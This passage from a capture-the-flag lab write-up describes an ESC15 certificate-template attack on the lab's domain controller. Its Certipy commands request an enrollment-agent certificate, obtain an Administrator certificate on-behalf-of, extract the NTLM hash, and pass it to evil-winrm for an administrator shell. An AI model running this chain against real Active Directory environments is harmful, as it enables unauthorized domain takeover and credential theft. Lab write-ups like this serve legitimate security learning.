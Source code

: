 So I tried another method found in the same reference:

### ESC15 Exploitation (Two-Step Method)

I had to use a specific version of Certipy that supports ESC15:

**Reference:** [Certipy ESC15 Branch by dru1d-foofus](https://github.com/dru1d-foofus/Certipy/tree/esc15-ekuwu)

```bash
git clone -b esc15-ekuwu --single-branch https://github.com/dru1d-foofus/Certipy
```

**Step 1: Request Certificate Request Agent Certificate**

First, I requested a certificate with the **Certificate Request Agent** application policy:

```bash
certipy req -dc-ip 10.10.11.72 -ca 'tombwatcher-CA-1' -target-ip 10.10.11.72 \
    -u cert_admin@tombwatcher.htb -p 'NewPassword' \
    -template WebServer -application-policies 'Certificate Request Agent'
```

This generated `cert_admin.pfx`.

**Step 2: Request Administrator Certificate On-Behalf-Of**

Using the Certificate Request Agent certificate, I requested a certificate on behalf of the Administrator:

**Reference:** [Certificate Request Agent Abuse](https://posts.specterops.io/certified-pre-owned-d95910965cd2#:~:text=Enrollment%20Agent)

```bash
certipy req \
    -u 'cert_admin@tombwatcher.htb' -p 'NewPassword' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'User' \
    -pfx cert_admin.pfx -on-behalf-of 'tombwatcher\Administrator'
```

This generated the final `administrator.pfx` certificate with proper Client Authentication capabilities.

**Step 3: Authenticate as Administrator**

With the valid administrator certificate, I authenticated and extracted the NTLM hash:

```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72'
```

**Step 4: Pass-the-Hash to Get Root Shell**

Finally, I used Evil-WinRM with the extracted NTLM hash to gain a shell as Administrator:

```bash
evil-winrm -i 10.10.11.72 -u Administrator -H <NTLM_HASH>
```

🎉 **Root flag obtained!**

---